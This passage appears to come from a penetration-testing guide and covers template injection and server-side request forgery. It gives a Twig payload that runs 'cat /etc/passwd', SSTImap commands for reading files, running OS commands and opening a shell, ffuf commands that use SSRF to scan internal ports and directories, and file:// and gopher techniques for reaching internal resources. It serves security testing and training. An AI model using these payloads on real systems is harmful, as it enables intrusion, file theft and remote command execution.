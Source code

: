 ```twig
{{ ['cat /etc/passwd'] | filter('system') }}
```

Useful tool to automate: https://github.com/vladko312/SSTImap

 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test`  
   Run identification
 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test -D '/etc/passwd' passwd.txt`   
   Download file
 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test -S whoami`  
   Run OS command
 - `python3 sstimap.py -u https://pentest-experts.com/index.php?q=test --os-shell`

### 4.7.19 Testing for Server-Side Request Forgery (WSTG-INPV-19)

**Using SSRF as portscanner**

```bash
seq 1 10000 > ports.txt
ffuf -w ports.txt -u "https://pentest-experts.com/index.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "ssrf_endpoint=https://192.168.1.2:FUZZ/" -fr "Failed to connect to"
```

**Using SSRF to scan files and directories**

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u "https://pentest-experts.com/index.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "ssrf_endpoint=https://192.168.1.2/FUZZ" -fr "404 Not Found"
```

**Reading files from the local filesystem via SSRF**

Use `file://` in the URL to to read loacl files - e.g. sourcecode disclosure: 

`ssrf_endpoint=file:///var/www/html/index.php`

**Using the gopher protocal to submit post requests to an internal endpoint**

Given we need to send the HTTP request

```http
POST /admin.php HTTP/1.1
Host: 192.168.1.2
Content-Length: 21
Content-Type: application/x-www-form-urlencoded

user=admin&pass=admin
```

We need to URL encode this request and use it in the gopher request as URL:

`gopher://192.168.1.2:80/_[REQUEST_GOES_HERE]`

Herby the port need to be specified, as gopher would otherwise use pot 70 as default.

This goopher url need then be URL encoded to be used in the request:
